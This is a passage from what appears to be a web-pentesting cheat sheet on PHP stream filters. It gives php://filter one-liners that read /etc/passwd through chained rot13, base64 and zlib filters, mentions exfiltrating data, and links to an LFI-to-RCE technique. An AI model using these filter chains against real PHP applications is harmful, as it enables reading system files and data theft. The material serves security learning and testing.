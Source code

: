 Abusing the `convert.iconv.*` conversion filter you can **generate arbitrary text**, which could be useful to write arbitrary text or make a function like include process arbitrary text. For more info check [**LFI2RCE via php filters**](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters).

* [Compression Filters](https://www.php.net/manual/en/filters.compression.php)
  * `zlib.deflate`: Compress the content (useful if exfiltrating a lot of info)
  * `zlib.inflate`: Decompress the data
* [Encryption Filters](https://www.php.net/manual/en/filters.encryption.php)
  * `mcrypt.*` : Deprecated
  * `mdecrypt.*` : Deprecated
* Other Filters
  * Running in php `var_dump(stream_get_filters());` you can find a couple of **unexpected filters**:
    * `consumed`
    * `dechunk`: reverses HTTP chunked encoding
    * `convert.*`

```
# String Filters
## Chain string.toupper, string.rot13 and string.tolower reading /etc/passwd
echo file_get_contents("php://filter/read=string.toupper|string.rot13|string.tolower/resource=file:///etc/passwd");
## Same chain without the "|" char
echo file_get_contents("php://filter/string.toupper/string.rot13/string.tolower/resource=file:///etc/passwd");
## string.string_tags example
echo file_get_contents("php://filter/string.strip_tags/resource=data://text/plain,<b>Bold</b><?php php code; ?>lalalala");

# Conversion filter
## B64 decode
echo file_get_contents("php://filter/convert.base64-decode/resource=data://plain/text,aGVsbG8=");
## Chain B64 encode and decode
echo file_get_contents("php://filter/convert.base64-encode|convert.base64-decode/resource=file:///etc/passwd");
## convert.quoted-printable-encode example
echo file_get_contents("php://filter/convert.quoted-printable-encode/resource=data://plain/text,£hellooo=");
=C2=A3hellooo=3D
## convert.iconv.utf-8.utf-16le
echo file_get_contents("php://filter/convert.iconv.utf-8.utf-16le/resource=data://plain/text,trololohellooo=");

# Compresion Filter
## Compress + B64
echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=file:///etc/passwd");
readfile('php://filter/zlib.inflate/resource=test.deflated'); #To decompress the data locally
# note that PHP protocol is case-inselective (that's mean you can use "PhP://" and any other varient)
```

The part "php://filter" is case insensitive
